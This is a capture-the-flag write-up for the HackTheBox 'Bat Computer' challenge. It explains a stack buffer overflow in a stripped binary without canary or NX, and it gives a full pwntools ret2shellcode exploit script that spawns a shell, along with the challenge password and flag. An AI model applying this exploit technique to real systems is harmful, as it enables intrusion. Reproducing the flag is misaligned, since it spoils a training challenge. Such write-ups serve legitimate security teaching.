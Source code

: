 # Bat Computer
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0455e35d-ab94-4c1b-a1df-9653ca642396)


## Lessons Learned:
1. BOF.
2. Ret2shellcode.

## DESCRIPTION:
It's your time to save the world!

## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466124-165c91d7-782c-43fe-95f3-f1c4d5b5b6df.png)


2. Next, check the file type.

> RESULT - 64 bit, stripped

![image](https://user-images.githubusercontent.com/70703371/209466133-9ea11e4c-167c-4750-b406-ca376c95304b.png)


3. Since it's a binary file, check the file's protection.

> RESULT - No Canary Found (means we can do bufferoverflow), NX disabled (means we can inject shellcode)

![image](https://user-images.githubusercontent.com/70703371/209466161-d860d603-e2a9-48d0-a588-ee38d583ad16.png)


4. Let's run chmod first to make the executable then run the file in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466201-78001337-1429-44e0-90c8-93364aff7f8d.png)


5. Let's choose to track joker first.

![image](https://user-images.githubusercontent.com/70703371/209466212-8febfab0-ab55-4c1d-a3fc-a1b845c263a5.png)


6. Now let's chase him.

![image](https://user-images.githubusercontent.com/70703371/209466227-ab9face8-c56f-4af1-a53a-739bdf206574.png)


![image](https://user-images.githubusercontent.com/70703371/209466238-3a283a09-0eee-4510-840a-cdb19c4de183.png)


7. Let's decompile the file in ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209466257-86061308-c0aa-4a0d-98dc-26d65b4c0a6e.png)


8. Since the binary stripped, hence it's harder for us identify the function.
9. Anyway i think i found the `main()` function.

![image](https://user-images.githubusercontent.com/70703371/209466274-44f2c43b-1e89-4460-94e5-48b2c77dbd77.png)


10. We found the password here, but i don't think the program will give us a flag when we entered the correct pass.

![image](https://user-images.githubusercontent.com/70703371/209466369-2685fcf5-5bef-462f-83b2-e3c13f0f3cae.png)


12. The vuln here is the `auStack84` only has 76 size of buffers but the binary read 137. Hence we can utilize it for bufferoverflow.. 

![image](https://user-images.githubusercontent.com/70703371/209514203-72e514f3-fc0b-449d-8c34-df461ffec906.png)


13. The attack we shall use to get the flag is `inject a shellcode`.
14. So when the binary prompts us the navigation, we inject the shellcode there, so the shellcode will stored at the stack location which we have the address of. So then we need to overwrite the return address (the instruction pointer), overwrite that with the address of the stack where we place our shell code.
15. In short, since the `auStack84` location will change everytime we execute the binary, so we need to extract the address of it, then we need to enter the password and enter the shellcode. To control the return address we need to overflow the buffer.
16.  Now let's run the binary in gdb.

> RESULT - CHOOSE OPTION 2 - ENTER THE PASSWORD (b4tp@$$w0rd!)

![image](https://user-images.githubusercontent.com/70703371/209515683-69da2386-8b87-4d88-acab-912037ea9c59.png)


17. Enter cyclic 1024 pattern.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209516091-384d2679-2871-4896-bcd3-25eb2d8caddc.png)


18. The program didn't crash, because it will crash until we hit return, remember that we are in a while loop.

![image](https://user-images.githubusercontent.com/70703371/209516369-f8855662-9a57-4a91-820e-c15e469632da.png)


19. Let's make another cyclic pattern, but this time 100.
20. Run the binary again in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209516507-c0ab0615-b327-4543-9c69-747707710a61.png)


21. This time enter random number.

> RESULT - SEGMENTATION FAULT

![image](https://user-images.githubusercontent.com/70703371/209516541-6cef29de-deba-466a-a618-b4af96d1fa09.png)


22. Now take 4 bytes from RSP to look the correct bytes to overflow the buffer.

> RESULT - 84 BYTES

![image](https://user-images.githubusercontent.com/70703371/209516745-eaee73ed-a9f0-41d8-a3bd-8575482d8c64.png)


23. Means we need to write 84 bytes, then the return address (the location of joker), enter the password, enter the shellcode.
24. Now for the exploit script, to extract the stack offset, i used `pwntools` to make this regex.

```py
extractedStack_addr = int(re.search(r"(0x[\w\d]+)", sh.recvlineS()).group(0), 16)
```

25. Now for the shellcode, we can utilize the `shellcraft`.
26. First, we need to pop registers at the beginning se we have room to inject shellcode.
27. For the padding value , we can use this formula:

```py
padding = asm('nop') * (paddingBytes - len(shellcode)) 
```

28. So here is our final script:

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './batcomputer'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

## EXPLOITATION

paddingBytes = 84 #EIP/RIP offset
sh = start()

sh.sendlineafter('>', '1')
extractedStack_addr = int(re.search(r"(0x[\w\d]+)", sh.recvlineS()).group(0), 16)
info("extractedStack_addr (joker's offset): %#x", extractedStack_addr)

shellcode = asm(shellcraft.popad()) 
shellcode += asm(shellcraft.sh())
padding = asm('nop') * (paddingBytes - len(shellcode)) 

payload = flat([
    padding,
    shellcode,
    extractedStack_addr
])

sh.sendlineafter(b'>', b'2') 
sh.sendlineafter(b'Enter the password:', b'b4tp@$$w0rd!') 
sh.sendlineafter(b'Enter the navigation commands:', payload) 
sh.sendlineafter(b'>', b'130') # to trigger return 
sh.recvuntil("Too bad, now who's gonna save Gotham? Alfred?\n")

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209521025-4a04b417-cbdd-4d26-be13-5ab04c9a6e78.png)


![image](https://user-images.githubusercontent.com/70703371/209521063-df20c595-fb57-44af-b01a-0296b8ca3154.png)


![image](https://user-images.githubusercontent.com/70703371/209521083-f75e7023-e6e4-4e1e-8668-699835443529.png)


![image](https://user-images.githubusercontent.com/70703371/209521119-0b3ce4e4-6532-4f08-bd7e-694a3420f297.png)


![image](https://user-images.githubusercontent.com/70703371/209521140-428fae0e-3176-4fda-baa8-6f95c799f629.png)


29. Got the flag!

## FLAG

```
HTB{l0v3_y0uR_sh3llf_U_s4v3d_th3_w0rld!}
```
